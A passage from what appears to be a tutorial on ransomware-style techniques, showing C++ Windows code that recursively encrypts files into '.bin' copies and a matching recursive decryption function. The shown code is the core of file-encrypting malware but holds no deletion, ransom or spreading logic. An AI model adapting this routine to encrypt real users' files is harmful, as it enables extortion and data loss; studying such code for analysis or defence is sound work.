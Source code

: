 ```cpp
      printf("file: %s\n", filePath);
      char encryptedFilePath[MAX_PATH];
      sprintf_s(encryptedFilePath, MAX_PATH, "%s.bin", filePath);
      encrypt_file(filePath, encryptedFilePath);
    }

  } while (FindNextFileA(hFind, &findFileData) != 0);

  FindClose(hFind);
}
```

As you can see, the logic is pretty simple.    
The recursive decryption uses the same trick:    

```cpp
void decryptFiles(const char* folderPath) {
  WIN32_FIND_DATAA findFileData;
  char searchPath[MAX_PATH];
  sprintf_s(searchPath, MAX_PATH, "%s\\*", folderPath);

  HANDLE hFind = FindFirstFileA(searchPath, &findFileData);

  if (hFind == INVALID_HANDLE_VALUE) {
    printf("error: %d\n", GetLastError());
    return;
  }

  do {
    const char* fileName = findFileData.cFileName;

    if (strcmp(fileName, ".") == 0 || strcmp(fileName, "..") == 0) {
      continue;
    }

    char filePath[MAX_PATH];
    sprintf_s(filePath, MAX_PATH, "%s\\%s", folderPath, fileName);

    if (findFileData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) {
      // Recursive call for subfolders
      decryptFiles(filePath);
    } else {
      // Process individual files
      if (strstr(fileName, ".bin") != NULL) {
        printf("File: %s\n", filePath);
        char decryptedFilePath[MAX_PATH];
        sprintf_s(decryptedFilePath, MAX_PATH, "%s.decrypted", filePath);
        decrypt_file(filePath, decryptedFilePath);
      }
    }

  } while (FindNextFileA(hFind, &findFileData) != 0);

  FindClose(hFind);
}
```
